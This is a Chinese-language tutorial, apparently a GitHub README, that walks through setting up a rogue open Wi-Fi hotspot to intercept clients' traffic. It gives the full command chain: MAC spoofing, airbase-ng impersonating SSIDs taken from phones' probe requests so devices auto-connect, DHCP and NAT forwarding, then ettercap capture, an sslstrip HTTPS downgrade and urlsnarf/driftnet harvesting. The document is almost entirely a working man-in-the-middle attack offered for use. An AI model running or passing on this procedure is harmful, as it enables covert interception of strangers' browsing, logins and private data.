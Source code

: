 建立soft Ap并进行嗅探，主要有如下4步：

1.airbase-ng建立热点
2.dhcpd启动dhcp服务
3.iptables设置好转发规则，使接入Soft AP客户的数据可正常访问互联网
4.启动嗅探工具收集信息

## 启动monitor模式 ##

    airmon-ng start wlan1
    ifconfig wlan1 down
    macchanger –r wlan1
    ifconfig wlan1 up
    ifconfig mon0 down
    macchanger –r mon0
    ifconfig mon0 up 
## 使用airbase-ng建立OPN的Soft AP ##

airbase-ng主要用于建立OPN的AP，也就是不需要密码的公开AP。WEP加密的已经很少见了，不支持WPA加密。这一步中，最关键的是AP的ssid，ssid决定了AP欺骗性，也就是被连接的可能性。现在手机、平板电脑的客户端会自动记录连接过的AP信息，保存在/data/misc/wifi/wpa_suppliant.conf中，每个热点保存四个信息：ssid、psk（密码）、key_mgmt（加密方式）、priority（优先级）。注意，其中不含网卡的硬件地址.所以，只需前三项对上，便可自动连接。
手机wifi功能打开时，会不断向外发送probe信息包，里面包含ssid。可用airodump-ng查看当前网络环境下有哪些被probe的ssid，供伪造ssid时参考。
选定名称后，便可使用airbase-ng建立Fake AP了：
airbase-ng $FAKE_AP_INTERFACE -e $FAKE_AP_ESSID -c
airbase-ng运行成功后，ifconfig查看，会多出一个at0接口。


## dhcp服务 ##

客户端连接上SoftAP后，要给他们分配IP地址。这里有一条最关键，就是SoftAP的IP地址和Internet接口的IP地址不能在网一个段。比如，连接Internet网的网卡eth0，地址是10.10.10.138/24，则at0的地址后面不能设置为同一网段，这里设置为10.0.0.1/24。

### 安装dhcp服务 ###

    apt-get install isc-dhcp-server

接下来然后需要将SoftAP的接口，也就是airbase-ng创建的at0设置为该网段的网关：
ifconfig at0 up
ifconfig at0 10.0.0.1 netmask 255.255.255.0
ifconfig at0 mtu 1500
route add -net 10.0.0.0 netmask 255.255.255.0 gw 10.0.0.1

### 启动dhcp服务 ###

    dhcpd -d -f -cf dhcpd.conf <INTERFACE>
    
## 使用iptables设置转发 ##

使用iptables设置转发，将用户连接SoftAP后的数据，转发到internet上，是非常关键的一步。网上各种版本很多，其实最简单的实现就一句指令：

    iptables -t nat -A POSTROUTING --out-interface $FAKE_AP_INTERNET -j MASQUERADE    #$FAKE_AP_INTERNET是外网接口
    
注意，转发生效需要本机开启ip_forward功能。指令是：

    echo "1" > /proc/sys/net/ipv4/ip_forward

由于后面运行ettercap时，会将该值再次变为0，所以等ettercap运行后再执行上述命令。

## 运行各种嗅探工具 ##

SoftAP建立并运行dhcp服务后，客户端就可以根据我们设定的规则连接上热点并正常浏览网页，运行各个程序了。接下来，就是针对Soft AP的接口at0，执行各种嗅探：

    ettercap -Tzq -i $FAKE_AP_AT_INTERFACE -w $SESSION_PATH/etter.pcap -L $SESSION_PATH/etter
    iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port $SSLSTRIP_PORT
    sslstrip -pkf -l $SSLSTRIP_PORT -w $SESSION_PATH/sslstrip.log 2>/dev/null
    urlsnarf -i $1 | grep http > $SESSION_PATH/url.txt
    tail -f $SESSION_PATH/url.txt
    driftnet -i $1 -d $SESSION_PATH/
